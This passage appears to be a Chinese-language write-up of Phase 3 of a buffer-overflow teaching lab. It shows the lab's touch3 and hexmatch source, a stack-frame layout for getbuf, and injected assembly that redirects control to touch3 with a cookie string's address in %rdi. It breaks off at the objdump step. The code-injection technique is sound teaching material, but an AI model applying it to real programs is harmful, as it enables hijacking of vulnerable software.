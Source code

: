 函数 `touch3` 的 C 语言代码如下：

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

函数 `hexmatch` 的 C 语言代码如下：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

函数 getbuf 的**栈帧**如下：
| item | size | address | statements |
| --- | --- | --- | --- |
| cookie | 8B | 0x5561dca8 | Cookie 字符串 |
| Return Address | 8B | 0x5561dca0 | 返回地址 |
| Buffer | 40B | 0x5561dc78 | 缓冲区 |

其中 cookie 不是函数 `getbuf` 栈帧的一部分，但是将 cookie 存在高地址（在返回地址后面）是正确且安全的，因为若将 cookie 存放于缓冲区中，调用函数 touch3 时，Cookie 字符串可能会遭到破坏。

下面编写攻击代码，同 Phase 2 一样，将攻击代码嵌入到缓冲区中（首地址为 _0x5561dc78_），编写攻击代码，使得将控制转移到函数 `touch3`，并且将 cookie 字符串的首地址存放于寄存器 %rdi 中，准备好参数。

编写下列汇编代码；

```
pushq $0x4018fa         # Address of function touch3
movq $0x5561dca8, %rdi  # Adress of cookie string
retq                    # Transfer control to function touch3

```

通过 gcc 生成机器代码并通过 objdump 获取对应的机器代码：
